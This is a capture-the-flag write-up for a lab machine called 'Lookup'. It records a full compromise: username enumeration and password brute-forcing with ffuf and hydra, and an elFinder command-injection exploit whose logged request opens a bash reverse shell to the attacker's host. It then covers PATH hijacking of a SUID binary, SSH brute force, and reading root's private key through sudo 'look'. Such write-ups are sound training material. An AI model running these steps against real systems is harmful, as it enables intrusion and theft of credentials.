

## Flags
- **User flag**: 38375fb4dd8{REDACTED}ac03d92b820e
- **Root flag**: 5a285a9f257{REDACTED}a9f9f57d18e8

# Reconnaissance

## Technology Identification
```bash
$ webanalyze -host lookup.thm -crawl 1
 :: webanalyze        : v0.3.9
 :: workers           : 4
 :: technologies      : technologies.json
 :: crawl count       : 1
 :: search subdomains : true
 :: follow redirects  : false

[REDACTED] warning: technologies.json is older than a week
http://lookup.thm (0.7s):
    Apache HTTP Server, 2.4.41 (Web servers)
    Ubuntu,  (Operating systems)
```

## Debugging Page Content
```bash
# basic header information
$ curl -I 10.10.69.10  
HTTP/1.1 302 Found
Date: REDACTED
Server: Apache/2.4.41 (Ubuntu)
Location: http://lookup.thm
Content-Type: text/html; charset=UTF-8
```
## Adding new host 
```bash
$ echo "10.10.69.10 lookup.thm" | sudo tee -e /etc/hosts
```


```bash
# Detailed header information 
$ curl http://lookup.thm -v  
* Host lookup.thm:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.69.10
*   Trying 10.10.69.10:80...
* Connected to lookup.thm (10.10.69.10) port 80
* using HTTP/1.x
> GET / HTTP/1.1
> Host: lookup.thm
> User-Agent: curl/8.10.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Mon, 25 Nov 2024 05:40:23 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 719
< Content-Type: text/html; charset=UTF-8
< 
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Login Page</title>
  <link rel="stylesheet" href="styles.css">
</head>
<body>
  <div class="container">
    <form action="login.php" method="post">
      <h2>Login</h2>
      <div class="input-group">
        <label for="username">Username</label>
        <input type="text" id="username" name="username" required>
      </div>
      <div class="input-group">
        <label for="password">Password</label>
        <input type="password" id="password" name="password" required>
      </div>
      <button type="submit">Login</button>
    </form>
  </div>
</body>
</html>
```


## Nmap 
> TCP scanning 
```bash
# gather detailed information about the target
$ nmap -sC -sV -Pn -p$(nmap -p- --min-rate=1000 -T4 lookup.thm | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') lookup.thm 
```
```bash
# result 
Nmap scan report for 10.10.143.128
Host is up (0.31s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://lookup.thm
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Directory
```bash
# directory listing and hidden contents 

$ gobuster dir -u http://www.lookup.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o gobuster.txt -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://www.lookup.thm
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 279]
```

## DNS subdomain enumeration
> gobuster vs DNSmap
```bash
$ gobuster dns -d lookup.thm -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt  
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     lookup.thm
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: www.lookup.thm

Found: files.lookup.thm
```
```bash
$ dnsmap lookup.thm -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt

dnsmap 0.36 - DNS Network Mapper

[+] searching (sub)domains for lookup.thm using /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] using maximum random delay of 10 millisecond(s) between requests

www.lookup.thm
IP address #1: 10.10.69.10
[+] warning: internal IP address disclosed

files.lookup.thm
IP address #1: 10.10.69.10
[+] warning: internal IP address disclosed
```

```bash
$ echo "10.10.160.51 lookup.thm www.lookup.thm" | tee -a /etc/hosts
```

## Basic authentication 

```bash
# test user
$ curl -X POST http://lookup.thm/login.php --data "username=test&password=test123" -o -
Wrong username or password. Please try again.<br>Redirecting in 3 seconds.

# admin user
$ curl -X POST http://lookup.thm/login.php --data "username=admin&password=admin" -o - 
Wrong password. Please try again.<br>Redirecting in 3 seconds. 
```

I tried logging-in with the `test` username, but it kept saying "Wrong username or password." when I switched to the admin username, I found it was valid. I thought about maybe I could try brute-forcing the `admin` user to get the password using `Hydra` with `http-form` module, but it turned out to be a waste of time because it kept getting false positives results. It was really frustrating.

So, I decided to try something different i used `ffuf` to fuzz valid usernames and matched responses with a regular expression. I also checked for SQL injection and other vulnerabilities but didn’t find anything useful. I looked at the description mentioning automating task like "scripting", but I don’t think that’s the best approach for me right now since our goal is to get the valid usernames and passwords and we already have the right tool.

## Web Application Enumeration
> valid usernames using match regular expression
```bash
$ ffuf -w /usr/share/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&&password=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.lookup.thm/login.php -mr "Wrong password. Please try again."


 :: Method           : POST
 :: URL              : http://www.lookup.thm/login.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&&password=x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: Wrong password. Please try again.
________________________________________________

admin                   [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 305ms]
jose                    [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 298ms]
:: Progress: [10177/10177] :: Job [1/1] :: 134 req/sec :: Duration: [0:01:20] :: Errors: 0 ::
```

## Bruteforcing passwords
```bash
# You can also use Hydra with this command, but it takes time and it depends on your hardware resources.

$ hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/:username=^USER^&password=^PASS^:Wrong password. Please try again." -q  
```

```bash
# But when i tried in ffuf it took only few seconds 
$ ffuf -w /usr/share/wordlists/rockyou.txt -X POST -d "username=jose&&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u http://lookup.thm/login.php -fw 8


 :: Method           : POST
 :: URL              : http://lookup.thm/login.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=jose&&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 8
________________________________________________

password123             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 327ms]
[WARN] Caught keyboard interrupt (Ctrl-C)

real	18.22s
user	10.43s
sys	1.53s
cpu	65%
```

## vulnerability Identification
```bash
$ searchsploit -w elFinder 2.1.47  
-------------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                                                                                  |  URL
-------------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
elFinder 2.1.47 - 'PHP connector' Command Injection                                                                             | https://www.exploit-db.com/exploits/46481
elFinder PHP Connector < 2.1.48 - 'exiftran' Command Injection (Metasploit)                                                     | https://www.exploit-db.com/exploits/46539
elFinder PHP Connector < 2.1.48 - 'exiftran' Command Injection (Metasploit)                                                     | https://www.exploit-db.com/exploits/46539
-------------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
Shellcodes: No Results
Papers: No Results
```
## Sploitscan
> searching for public proof of concept (POC) and its vulnerability details
```bash
$ sploitscan  CVE-2019-9194    

███████╗██████╗ ██╗      ██████╗ ██╗████████╗███████╗ ██████╗ █████╗ ███╗   ██╗
██╔════╝██╔══██╗██║     ██╔═══██╗██║╚══██╔══╝██╔════╝██╔════╝██╔══██╗████╗  ██║
███████╗██████╔╝██║     ██║   ██║██║   ██║   ███████╗██║     ███████║██╔██╗ ██║
╚════██║██╔═══╝ ██║     ██║   ██║██║   ██║   ╚════██║██║     ██╔══██║██║╚██╗██║
███████║██║     ███████╗╚██████╔╝██║   ██║   ███████║╚██████╗██║  ██║██║ ╚████║
╚══════╝╚═╝     ╚══════╝ ╚═════╝ ╚═╝   ╚═╝   ╚══════╝ ╚═════╝╚═╝  ╚═╝╚═╝  ╚═══╝
v0.10.5 / Alexander Hagenah / @xaitax / ah@primepage.de

╔═══════════════════════╗
║ CVE ID: CVE-2019-9194 ║
╚═══════════════════════╝

┌───[ 🔍 Vulnerability information ]
|
├ Published:   2019-02-26
├ Base Score:  N/A (N/A)
├ Vector:      N/A
└ Description: elFinder before 2.1.48 has a command injection vulnerability in the PHP connector.

┌───[ ♾️ Exploit Prediction Score (EPSS) ]
|
└ EPSS Score:  95.61% Probability of exploitation.

┌───[ 🛡️ CISA KEV Catalog ]
|
└ ❌ No data found.

┌───[ 💣 Public Exploits (Total: 4) ]
|
├ GitHub
│  └ Date: 2019-03-16 - https://github.com/cved-sources/cve-2019-9194
│
├ Exploit-DB
│  ├ Date: 2019-03-13 - https://www.exploit-db.com/exploits/46539
│  ├ Date: 2019-03-13 - https://www.exploit-db.com/exploits/46539
│  └ Date: 2019-03-04 - https://www.exploit-db.com/exploits/46481
│
└ Other
   └ PacketStorm: https://packetstormsecurity.com/search/?q=CVE-2019-9194

┌───[ 🕵️ HackerOne Hacktivity ]
|
├ Rank:        7304
├ Reports:     0
└ Severity:    Unknown: 0 / None: 0 / Low: 0 / Medium: 0 / High: 0 / Critical: 0

┌───[ 🤖 AI-Powered Risk Assessment ]
|
|                                     
| ❌ OpenAI API key is not configured correctly.
|
└────────────────────────────────────────

┌───[ ⚠️ Patching Priority Rating ]
|
└ Priority:     A+

┌───[ 📚 Further References ]
|
├ https://github.com/Studio-42/elFinder/compare/6884c4f...0740028
├ https://github.com/Studio-42/elFinder/releases/tag/2.1.48
├ https://www.exploit-db.com/exploits/46539/
├ https://www.exploit-db.com/exploits/46481/
└ https://github.com/Studio-42/elFinder/blob/master/README.md
```

## Exploitation
> [Github PoC](https://github.com/hadrian3689/elFinder_2.1.47_php_connector_rce/blob/main/exploit.py)
```bash
# usage 
$ python3 exploit.py -h
usage: exploit.py [-h] -t <Target base URL> -lh <Listener IP> -lp <Listener Port>

CVE-2019-9194 elFinder 2.1.47 - PHP connector Command Injection

options:
  -h, --help            show this help message and exit
  -t <Target base URL>  Example: -t http://elfinder.url/elfinder/
  -lh <Listener IP>     Example: -lh 127.0.0.1
  -lp <Listener Port>   Example: -lp 1337
                                                                                  
$ python3 exploit.py -t http://files.lookup.thm/elFinder/ -lh 10.23.42.147 -lp 443
CVE-2019-9194 elFinder 2.1.47 - PHP connector Command Injection
Uploading image
Gettin file hash: l1_cnNlLmpwZztlY2hvIDNjM2Y3MDY4NzAyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUyNDU1MTU1NDU1MzU0NWIyMjYzMjI1ZDI5M2IyMDNmM2UwYSB8eHhkIC1yIC1wID4gcnNlLnBocDsgIy5qcGc
Rotating image
Requesting shell at http://files.lookup.thm/elFinder/php/rse.php?c=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/10.23.42.147/443%200>%261'


# listener
$ sudo rlwrap -cAr nc -lvnp 443
[sudo] password for l0n3m4n: 
listening on [any] 443 ...
connect to [10.23.42.147] from (UNKNOWN) [10.10.117.176] 34466
bash: cannot set terminal process group (709): Inappropriate ioctl for device
bash: no job control in this shell

www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$
```

# Post Enumeration
> Useful informations
```bash
╔══════════╣ Searching root files in home dirs (limit 30)
/home/
/home/think/.bash_history
/home/think/.viminfo
/home/think/.passwords
/home/think/user.txt
/root/
/var/www
/var/www/lookup.thm/public_html/index.php
/var/www/lookup.thm/public_html/styles.css
/var/www/lookup.thm/public_html/login.php
/var/www/files.lookup.thm/public_html/index.php
/var/www/html/index.php
```
```bash
ww-data@lookup:/home/think$ ls -al
ls -al
total 48
drwxr-xr-x 5 think think 4096 Nov 26 07:59 .
drwxr-xr-x 3 root  root  4096 Jun  2  2023 ..
lrwxrwxrwx 1 root  root     9 Jun 21  2023 .bash_history -> /dev/null
-rwxr-xr-x 1 think think  220 Jun  2  2023 .bash_logout
-rwxr-xr-x 1 think think 3771 Jun  2  2023 .bashrc
drwxr-xr-x 2 think think 4096 Jun 21  2023 .cache
drwx------ 3 think think 4096 Aug  9  2023 .gnupg
-rw-r----- 1 root  think  525 Jul 30  2023 .passwords
-rwxr-xr-x 1 think think  807 Jun  2  2023 .profile
drw-r----- 2 think think 4096 Jun 21  2023 .ssh
lrwxrwxrwx 1 root  root     9 Jun 21  2023 .viminfo -> /dev/null
-rw-rw-r-- 1 think think 2602 Nov 26 07:59 id_rsa
-rw-rw-r-- 1 think think 2602 Nov 26 07:59 pwn
-rw-r----- 1 root  think   33 Jul 30  2023 user.txt
www-data@lookup:/home/think$ cat .passwords
cat .passwords
cat: .passwords: Permission denied
```
## SUID 
```bash
-rwsr-xr-x 1 root root 129K May 27  2023 /snap/snapd/19457/usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-x 1 root root 84K Nov 29  2022 /snap/core20/1950/usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 52K Nov 29  2022 /snap/core20/1950/usr/bin/chsh
-rwsr-xr-x 1 root root 87K Nov 29  2022 /snap/core20/1950/usr/bin/gpasswd
-rwsr-xr-x 1 root root 55K May 30  2023 /snap/core20/1950/usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K Nov 29  2022 /snap/core20/1950/usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 67K Nov 29  2022 /snap/core20/1950/usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 67K May 30  2023 /snap/core20/1950/usr/bin/su
-rwsr-xr-x 1 root root 163K Apr  4  2023 /snap/core20/1950/usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 39K May 30  2023 /snap/core20/1950/usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-- 1 root systemd-resolve 51K Oct 25  2022 /snap/core20/1950/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 463K Apr  3  2023 /snap/core20/1950/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 84K Nov 29  2022 /snap/core20/1974/usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 52K Nov 29  2022 /snap/core20/1974/usr/bin/chsh
-rwsr-xr-x 1 root root 87K Nov 29  2022 /snap/core20/1974/usr/bin/gpasswd
-rwsr-xr-x 1 root root 55K May 30  2023 /snap/core20/1974/usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K Nov 29  2022 /snap/core20/1974/usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 67K Nov 29  2022 /snap/core20/1974/usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 67K May 30  2023 /snap/core20/1974/usr/bin/su
-rwsr-xr-x 1 root root 163K Apr  4  2023 /snap/core20/1974/usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 39K May 30  2023 /snap/core20/1974/usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-- 1 root systemd-resolve 51K Oct 25  2022 /snap/core20/1974/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 463K Apr  3  2023 /snap/core20/1974/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 23K Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 463K Aug  4  2023 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 15K Jan 11  2024 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 51K Jan 11  2024 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-sr-x 1 root root 17K Jan 11  2024 /usr/sbin/pwm (Unknown SUID binary!)
-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 87K Nov 29  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 84K Nov 29  2022 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 163K Apr  4  2023 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 52K Nov 29  2022 /usr/bin/chsh
-rwsr-xr-x 1 root root 67K Nov 29  2022 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 55K May 30  2023 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 67K May 30  2023 /usr/bin/su
-rwsr-xr-x 1 root root 44K Nov 29  2022 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 31K Feb 21  2022 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)/Generic_CVE-2021-4034
-rwsr-xr-x 1 root root 39K May 30  2023 /usr/bin/umount  --->  BSD/Linux(08-1996)
```
## Users
```bash
╔══════════╣ Superusers
root:x:0:0:root:/root:/usr/bin/bash

╔══════════╣ Users with console
root:x:0:0:root:/root:/usr/bin/bash
think:x:1000:1000:,,,:/home/think:/bin/bash
```
## Software info
```bash
/usr/bin/base64
/usr/bin/curl
/usr/bin/gcc
/usr/bin/nc
/usr/bin/netcat
/usr/bin/perl
/usr/bin/php
/usr/bin/ping
/usr/bin/python3
/usr/bin/sudo
/usr/bin/wget
```

# Initial access
## Linpeas (SUID) 
```bash
-rwsr-sr-x 1 root root 17K Jan 11  2024 /usr/sbin/pwm (Unknown SUID binary!)
```
> My simple methodology for looking SUID files is to first check the last modified date.
```bash
www-data@lookup:~$ ls -al $(which pwm)
ls -al $(which pwm)
-rwsr-sr-x 1 root root 17176 Jan 11  2024 /usr/sbin/pwm
```


```bash
# checking  
www-data@lookup:/usr/sbin$ file pwm
file pwm
pwm: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=01ec8570b00af8889beebc5f93c6d56fb9cc1083, for GNU/Linux 3.2.0, not stripped

www-data@lookup:/usr/sbin$ ./pwm -h
./pwm -h
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
www-data@lookup:/usr/sbin$ 
```

The binary tried to check the user it's running as by using the `id` command, which revealed it's running as the `www-data` user, usually associated with web servers. 
Then, it tried to find a file called. `passwords` in the `www-data user's` home directory, but it couldn't locate it since `.passwords` is own by `think` user. 

So what we can do is use the UID of `think` user to extract the contents of `.passwords`. To do this we need to use the path variable to prioritize where the system should look. 
For example, we can create a script similar to the original binary `id` and save in `tmp` directory. so that every time we execute the `pwm binary`, it will extract the contents.
In our script created, here an example of think uid `uid=1000 (think) gid=1000 (think) groups=1000 (think)`.

## Path variable / Path hijacking
- **I encounter error while pasting command**: `bash: !/bin/bash\nuid=1000: event not found`
  - **Fix**: temporarily disable `history expansion` by setting the `HISTCONTROL` variable: **set +H**
```bash
# error 
www-data@lookup:~$ echo -e "#!/bin/bash\necho \"uid=1000(think) gid=1000(think) groups=1000(think)\"" > /tmp/id
bash: !/bin/bash\necho: event not found
```
```bash
# Fix error 
www-data@lookup:/$ set +H

www-data@lookup:/$ echo -e "#!/bin/bash\necho \"uid=1000(think) gid=1000(think) groups=1000(think)\"" > /tmp/id

www-data@lookup:/$ cat /tmp/id
#!/bin/bash
echo "uid=33(think) gid=33(think) groups=33(think)"

www-data@lookup:/$ chmod +x /tmp/id 

www-data@lookup:~$ ls -al /tmp/id
-rwxr-xr-x 1 www-data www-data 70 {REDACTED} /tmp/id

# password list 
www-data@lookup:~$ /usr/sbin/pwm
/usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
jose0_07
...
...
{REDACTED}
jose.hater
jose.fa
jose.f
jose.dont
jose.d
jose.com}
jose.com
jose.chepe_06
jose.a91
jose.a
jose.96.
jose.9298
jose.2856171
```
## Cracking Password list 
```bash
$ hydra -l think -P pass-lst.txt lookup.thm -s 22 ssh       
...
... 
[DATA] attacking ssh://lookup.thm:22/
[22][ssh] host: lookup.thm   login: think   password: josemario.AKA(think)
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
```
```bash
$ ssh think@lookup.thm 
think@lookup.thm's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-156-generic x86_64)
...
... 
think@lookup:~$ 
```
```bash
think@lookup:~$ sudo -l
[sudo] password for think: 
Matching Defaults entries for think on lookup:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```
## Getting root
>  https://gtfobins.github.io/#look
```bash
think@lookup:~$ LFILE=/root/.ssh/id_rsa
think@lookup:~$ sudo look '' "$LFILE" >> pwn 
...
[extract openssh private key]
...

# kali machine
$ scp -i think think@lookup.thm:/home/think/pwn .   
$ chmod 600 pwn
$ ssh -i pwn root@lookup.thm                     
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-156-generic x86_64)
...
...
root@lookup:~# 
```